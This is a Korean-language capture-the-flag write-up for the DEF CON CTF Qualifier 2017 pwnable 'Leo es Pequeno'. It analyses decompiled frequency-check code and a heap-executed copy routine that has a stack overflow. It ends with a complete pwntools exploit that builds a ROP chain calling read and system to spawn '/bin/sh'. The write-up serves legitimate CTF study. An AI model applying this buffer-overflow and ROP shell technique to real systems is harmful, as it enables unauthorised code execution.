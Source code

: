 # 작성중.............

# DEF CON CTF Qualifier 2017: Leo es Pequeno

**write-up by [kimtruth](https://github.com/kimtruth)**

**Category:** Pwnable

**Description:**

> You boys like Mexico?!
>
> leo_33e299c29ed3f0113f3955a4c6b08500.quals.shallweplayaga.me 61111
>
> Files: [leo](https://github.com/kimtruth/CTF-write-up/raw/master/DEF%20CON%20CTF%20Qualifier%202017/Leo%20es%20Pequeno/leo)

## [Step 1] 파일 형식 판정

```c
signed __int64 __fastcall categorize(_BYTE *input, int a2)
{
  signed __int64 result; // rax@25
  int table[256][2]; // [sp+10h] [bp-820h]@2
  unsigned int maxFreqChar; // [sp+814h] [bp-1Ch]@1
  unsigned int minFreqChar; // [sp+818h] [bp-18h]@1
  unsigned int unusedCnt; // [sp+81Ch] [bp-14h]@1
  unsigned int asciiCount; // [sp+820h] [bp-10h]@1
  unsigned int minFreq; // [sp+824h] [bp-Ch]@1
  unsigned int maxFreq; // [sp+828h] [bp-8h]@1
  int i; // [sp+82Ch] [bp-4h]@1

  maxFreq = 0;
  minFreq = -1;
  asciiCount = 0;
  unusedCnt = 0;
  minFreqChar = 511;
  maxFreqChar = 0;
  for ( i = 0; i <= 255; ++i )
  {
    table[i][0] = i;
    table[i][1] = 0;
  }
  for ( i = 0; i < a2; ++i )
    ++table[input[i]][1];                       // ascii frequency analysis
  for ( i = 0; i <= 255; ++i )
  {
    if ( table[i][1] > maxFreq )
      maxFreq = table[i][1];
    if ( table[i][1] < minFreq )
      minFreq = table[i][1];
    asciiCount += table[i][1];                  // asciiCount : 사용된 ascii값 종류
  }
  asciiCount >>= 8;
  sub_40185E((_DWORD *)table, 256);             // sort
  for ( i = 0; i <= 255; ++i )
  {
    if ( table[i][1] )
    {
      if ( table[i][0] < minFreqChar )
        minFreqChar = table[i][0];
      if ( table[i][0] > maxFreqChar )
        maxFreqChar = table[i][0];
    }
    else
    {
      ++unusedCnt;
    }
  }
  if ( unusedCnt > 4 || 10 * asciiCount <= maxFreq )
  {
    if ( maxFreqChar > 0x7F || minFreqChar <= 8 )
    {
      if ( minFreq && 10 * asciiCount < maxFreq )
      {
        result = 100LL;                         // Its an executable?  Let's see what 'file' says...
      }
      else if ( minFreq || 2 * asciiCount >= maxFreq )  // 1. minFreqChar <= 8   && 10 * asciiCount == maxFreq
                                                        // 2. maxFreqChar > 0x7f && 10 * asciiCount == maxFreq 
      {
        result = 22LL;                          // This doesn't match my patterns.  Checking...
      }
      else
      {
        result = 25LL;                          // I guess its binary data. Let's see what 'file' says...
      }
    }
    else if ( table[255][0] == 32 )
    {
      result = 49LL;                            // This is ASCII text.
    }
    else
    {
      result = 50LL;                            // This is ASCII data.
    }
  }
  else
  {
    result = 2LL;
  }
  return result;
}
```

먼저 조건식을 분석하여 `This doesn't match my patterns. Checking...`이 나오게 했다.
이유는 그냥.. 뭔가 의심가는 부분이였고 다른 부분이 공격가능한지 몰랐었다.

## [Step 2] 공격 가능성

먼저 Checking...한다고 하면서 call하는 함수는 heap에서 코드가 실행이 된다.

```
   0xab9000:	push   rbp
   0xab9001:	mov    rbp,rsp
   0xab9004:	mov    QWORD PTR [rbp-0x28],rdi
   0xab9008:	mov    DWORD PTR [rbp-0x2c],esi
   0xab900b:	mov    eax,DWORD PTR [rbp-0x2c]
   0xab900e:	mov    edx,eax
   0xab9010:	shr    edx,0x1f
   0xab9013:	add    eax,edx
   0xab9015:	sar    eax,1
   0xab9017:	add    eax,0x1
   0xab901a:	mov    DWORD PTR [rbp-0x8],eax
   0xab901d:	mov    DWORD PTR [rbp-0x4],0x11
   0xab9024:	mov    DWORD PTR [rbp-0x4],0x0
   0xab902b:	jmp    0xab9062
   0xab902d:	mov    eax,DWORD PTR [rbp-0x2c]
   0xab9030:	mov    edx,eax
   0xab9032:	shr    edx,0x1f
   0xab9035:	add    eax,edx
   0xab9037:	sar    eax,1
   0xab9039:	add    eax,0x1
   0xab903c:	cmp    eax,DWORD PTR [rbp-0x8]
   0xab903f:	je     0xab9043
   0xab9041:	jmp    0xab906b
   0xab9043:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9046:	movsxd rdx,eax
   0xab9049:	mov    rax,QWORD PTR [rbp-0x28]
   0xab904d:	add    rax,rdx
   0xab9050:	movzx  eax,BYTE PTR [rax]
   0xab9053:	mov    edx,eax
   0xab9055:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9058:	cdqe   
   0xab905a:	mov    BYTE PTR [rbp+rax*1-0x20],dl
   0xab905e:	add    DWORD PTR [rbp-0x4],0x1
   0xab9062:	mov    eax,DWORD PTR [rbp-0x4]
   0xab9065:	cmp    eax,DWORD PTR [rbp-0x2c]
   0xab9068:	jl     0xab902d
   0xab906a:	nop
   0xab906b:	pop    rbp
   0xab906c:	ret    
```

그냥 한번 귀찮으니 hexray를 돌려봤다.


```c
int __cdecl main(_BYTE *s, int num, const char **envp)
{
  int result; // eax@2
  char v4[24]; // [sp+Ch] [bp-20h]@3
  int v5; // [sp+24h] [bp-8h]@1
  int i; // [sp+28h] [bp-4h]@1

  v5 = num / 2 + 1;
  for ( i = 0; ; ++i )
  {
    result = i;
    if ( i >= num )
      break;
    result = num / 2 + 1;
    if ( result != v5 )
      break;
    v4[i] = s[i];
  }
  return result;
}
```
우리가 입력한 문자열을 어느 배열에 그대로 복붙을 하고 있다.

근데 일단 우리가 입력 가능한 문자가 16000자 였는데 그 배열이 `rbp-0x20`에 위치해 있다. 

그렇다면 return address 조작이 가능할 것이다.

하지만 `rbp-0x8`를 주의해야 한다. 

`rbp-0x8`에는 기존의 내용인 `8001`이 있어야 한다. 또한 `rbp-0x4`에 `0x1c`를 넣어 줘야 하는데 

그 이유는 `i`가 `0x1c`일 때 `rbp-0x4`에 값이 대입되기 때문이다.


## [Step 3] Exploit

`This doesn't match my patterns.  Checking...`가 뜨게 하기 위해서 620개의 빈도를 가지는 문자를 맞춰준다.
```python
#-*- coding:utf-8 -*-
from pwn import *
#r = remote('leo_33e299c29ed3f0113f3955a4c6b08500.quals.shallweplayaga.me', '61111')
r = process('./leo')
print pidof(r)

paylod = ''
paylod += p32(8001) * 7 # [rbp - 0x20] ~ [rbp - 0x8]
paylod += p32(0x1c) 	# [rbp - 0x4]
paylod += p64(0x0) # rbp, 아무거나 
paylod += p64(0x402703) # pop rdi ret
paylod += p64(0) #fd
paylod += p64(0x402701) # pop rsi pop r15 ret
paylod += p64(0x0604188) # bss
paylod += p64(0xaaaaaaaa) # junk
paylod += p64(0x401090) # read@plt
paylod += p64(0x402703) # pop rdi ret
paylod += p64(0x0604188) # bss
paylod += p64(0x0400FD0) # system@plt


# for "This doesn't match my patterns.  Checking..." just padding
paylod += chr(255) * 620

for i in range(0, 254):
	paylod += chr(i) * 60

paylod += chr(254) * (16000 - len(paylod)) # for 16,000bytes

print len(paylod)

r.send(paylod)
r.send("/bin/sh\x00\n")

r.interactive()
```

